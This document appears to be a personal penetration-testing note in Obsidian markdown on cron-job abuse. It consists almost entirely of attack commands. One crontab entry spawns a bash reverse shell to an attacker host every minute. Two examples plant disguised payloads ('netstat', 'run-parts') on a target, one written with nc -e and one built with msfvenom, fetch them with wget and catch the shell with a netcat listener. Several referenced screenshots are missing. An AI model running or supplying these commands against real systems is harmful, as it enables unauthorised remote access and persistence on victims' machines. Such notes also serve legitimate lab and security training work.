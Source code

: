 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Echo cron job

```bash - target
(crontab -l ; echo "* * * * * bash -i >& /dev/tcp/$KALI/443 0>&1 &") | crontab -
```

#### Example 1

![[Pasted image 20220225224851.png|1000]]

Target:
```bash - target
cd /dev/shm
```

Kali
```bash - kali
echo 'nc $KALI 443 -e /bin/bash' > netstat
```


![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Target:
```bash - target
wget http://$KALI/netstat
```

```bash - target
chmod +x netsat
```

![[rlwrap]]

#### Example 2

![[Pasted image 20220302210353.png]]

![[Pasted image 20220302210759.png]]

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=3000 -f elf > run-parts
```

```bash - target
cd /usr/local/bin
```

```bash - target
wget http://$KALI:3000/run-parts
```

```bash - target
chmod +x /usr/local/bin/run-parts
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```

Wait the 5 minutes for the code to run.